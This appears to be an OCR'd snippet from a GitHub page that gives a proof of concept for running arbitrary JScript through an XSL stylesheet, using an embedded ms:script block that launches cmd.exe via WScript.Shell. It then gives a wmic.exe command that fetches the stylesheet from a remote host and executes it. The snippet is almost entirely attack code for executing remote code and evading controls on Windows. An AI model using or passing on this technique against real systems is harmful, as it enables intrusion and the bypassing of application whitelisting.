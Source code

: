 **EXTRA WAYS TO EXECUTE ARBIRTRARY JSCRIPT CODE:**

Via XLS transform. Proof of concept to execute an additional cmd.exe:

Content of test.xls:

```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var r = new ActiveXObject("WScript.Shell");
      r.Run("cmd.exe");
    ] ]>
  </ms:script>
</stylesheet>
```

Then execute it with wmic.exe as follows:

```
C:\wmic process get brief /format:"http://192.168.1.1/test.xsl"
```
